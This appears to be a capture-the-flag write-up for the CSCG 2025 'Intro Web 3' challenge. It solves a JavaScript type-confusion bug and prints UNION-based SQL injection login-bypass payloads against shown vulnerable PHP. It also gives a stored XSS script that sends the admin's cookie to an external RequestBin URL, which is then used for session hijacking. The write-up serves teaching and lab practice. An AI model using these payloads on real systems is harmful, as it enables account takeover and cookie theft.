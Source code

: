 # Intro Web 3
- Author: Ilja Ylikangas / ilpakka
- Event: [CSCG 2025](https://play.cscg.live/)

## Details:

- **Category:** Web
- **Description:** "Alright. We've looked at what happens on your browser and also what happens in the communication between your browser and our web server. But what actually happens on our web server? What even is a web server?"
- **Attachment:** -

### Overview
Once again we read through the main page and try to notice any hints that might be useful in revealing the flag parts. We are going to be intercepting traffic and checking the requests with **Burp Suite** until it is not used anymore.

## 1. JavaScript and SHA256

The first challenge is to find a way to get the flag from a `Random Hashing Game`.<br>
<br>
We are given the source code for the script that hashes the flag an unknown number of times:

```javascript
const crypto = require("crypto");
let flag = require("./flag");

function randomHashing(request, response) {

    // take the user's number and make sure they actually sent us a positive number
    const chosenNumber = request.body["chosenNumber"];
    if (chosenNumber === undefined || typeof chosenNumber === "string") {
        response.status(400).send("You must choose a number!");
        return;
    }
    if (typeof chosenNumber === "number" && chosenNumber < 50) {
        response.status(400).send("Hey, no cheating!");
        return;
    }

    // now pick our own random number and take whichever one is lower
    const randomNumber = Math.floor(Math.random() * 100 + 1);
    const iterations = Math.min(chosenNumber, randomNumber);

    // sha256 the flag that often
    let hashedFlag = flag;
    for (let i = 0; i < iterations; i++) {
        hashedFlag = crypto.createHash("sha256").update(hashedFlag).digest('hex');
    }

    response.send(`Here's the first part of your flag, sha256'd ${iterations} times: ${hashedFlag}`);
}

module.exports = randomHashing;
```
It's clear that we need to find a way to beat the game. I noticed that `POST` requests contain the number value in **JSON** so what if instead of entering a numeric value we just play around and proceed with another data type like `null`?<br>
<br>
![null](images/null.png)
<br>
Well it would seem that this skipped the entire hashing part and the response reveals the flag part in plain text.<br>
<br>
Great, let's continue!<br>
<br>

## 2. SQL Injections

We are introduced to a standard login form and tasked with gaining admin access.<br>
<br>
![Login](images/login.png)<br>
<br>
We are also given the code behind the login page and the credentials (user:`smartymcsmartface`, password:`smart123`) for a user that is not an admin.
<br>
```php
<html>
<head>
    <title>Intro to Web 3</title>
    <meta charset="UTF-8">
    <link rel="stylesheet" type="text/css" href="style.css" />
</head>
<body>
<h1>Login</h1>
<?php
if (!isset($_POST["username"]) || !isset($_POST["password"])) {
    echo "You need to pass a username and password!";
    die();
}

// connect to DB
$db = pg_connect("host=localhost dbname=part2db user=part2");

// check if there is a user with the supplied username and password
$result = pg_exec($db,
    "SELECT username,is_admin from users WHERE username='".$_POST["username"]."' AND password='".$_POST["password"]."';"
);
$row = pg_fetch_row($result);

// no rows => incorrect credentials
if ($row == false) {
    echo "Login failed!";
    die();
}

echo "Logged in as: ".$row[0]."\n<br />";

// check if user is an admin
if ($row[1] == "t") {
    readfile("secret-text-files/flag-part-2.txt");
} else {
    echo "Get the hell outta here, peasant!";
}
?>
</body>
</html>
```
I see. We should try injecting the SQL query in a way that matches the required condition.<br>
Let's use the information above to construct ourselves a working query. Let's make sure to use `UNION` as we are combining two SELECTs.<br>

```
' UNION SELECT username,is_admin from users WHERE is_admin=true --
' UNION SELECT password,is_admin from users WHERE is_admin=true --
```

![Admin](images/admin.png)<br>
<br>

It worked and now we have our second part of the flag.<br>
<br>

## 3. Cookies Exfil Inbound

Our last challenge is to open up a Guestbook and try to find a way to impersonate the admin by making them send us their `session-id` cookie.<br>
We are also given the PHP source for the website `guestbook.php`.<br>
<br>
![Guestbook](images/guestbook.png)<br>

There is an important part in the source code. We can't use the same trick as before so let's try and find another way.<br>
```php
    // connect to DB
    $db = pg_connect("host=localhost dbname=part3db user=part3");

    // use a prepared statement to avoid SQL injections
    pg_prepare($db, "entry_add_query",
    "INSERT INTO guestbook_entries (username, content) VALUES ($1, $2);");

    // add the entry
    $result = pg_execute($db, "entry_add_query", array($username, $content));

    if ($result) {
        echo '<span style="color: green">Entry added!</span>';
    } else {
        echo '<span style="color: red">Error while adding entry!</span>';
    }
```
<br>

There is a service called **RequestBin** which let's analyze webhooks and other HTTP requests.<br>
<br>
We create a new default RequestBin and copy the bin URL on top of the page.<br>
![Requestbin](images/requestbin.png)<br>
<br>
Let's use a JavaScript snippet in our trigger to redirect the browser:

```javascript
<script>window.location.replace("https://requestbin.kanbanbox.com/theonepieceisreal?" + document.cookie)</script>
```

After posting any username and the message above on the Guestbook, if successful on the admin trigger, we should get the session ID by refreshing our RequestBin overview.<br>
*Note: Keep in mind that refreshing RequstBin might show you multiple results based on the time you waited. Make sure to identify the admin querystring by comparing session ids.*

![Adminsessionid](images/adminsessionid.png)<br>

Would you look at that, we've successfully managed to get the admin session id!<br>
<br>
We we just need to send a `GET` request with the session id edited to match the one we stole.<br>
<br>
![Sessionsteal](images/sessionid.png)<br>
<br>

Now we have the full flag and are ready to submit it!

---
